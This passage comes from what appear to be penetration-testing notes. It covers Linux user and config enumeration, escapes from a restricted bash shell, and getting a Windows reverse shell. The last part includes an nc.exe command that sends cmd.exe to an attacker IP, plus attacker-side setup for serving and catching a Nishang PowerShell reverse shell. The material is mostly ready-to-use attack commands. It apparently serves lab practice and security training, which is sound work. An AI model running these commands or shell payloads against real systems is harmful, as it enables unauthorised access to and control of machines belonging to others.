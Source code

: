 		* arp -a
	* Who uses the box? What users? (And which ones have a valid shell)
		* cat /etc/passwd   `users with /bin/bash as terminals are actual users `
		* grep -vE "nologin|false" /etc/passwd
	* who else is logged in
		* who
		* last

* find all config files
	* `find . -iname '*config*'`

* tools/root-enum/Linenum.sh


## Rbash escape

* try command while loggin into ssh
	* ssh ryuu@10.11.1.72 whoami
	* ssh -t bash ryuu@10.11.1.72  (here export PATH=new PATH) (in this case path can be changed)
* try to open editors and !ls to exec cammand
* just run /bin/bash
* setting environment variable
```

hacker@beta:~$ BASH_CMDS[a]=/bin/sh;a 

$ /bin/bash
hacker@beta:~$ export PATH=$PATH:/bin/
hacker@beta:~$ export PATH=$PATH:/usr/bin
```
* can use `echo *` and `echo .*` instead of `ls`






# Windows


## Getting reverse shell

 
### 1st way

upload nc.exe on victim computer and `"nc.exe -nv 10.11.0.167 1234 -e C:\WINDOWS\System32\cmd.exe"`


### 2nd way 
Attacker machine
```
$ mv nishange/Shells/Invoke-PowerShellTcp.ps1  ./nishang
$ python -m SimpleHTTPServer 8080 &
$ nc -l PORT
```
> Remember to change `IP/PORT` and `Execute on download`
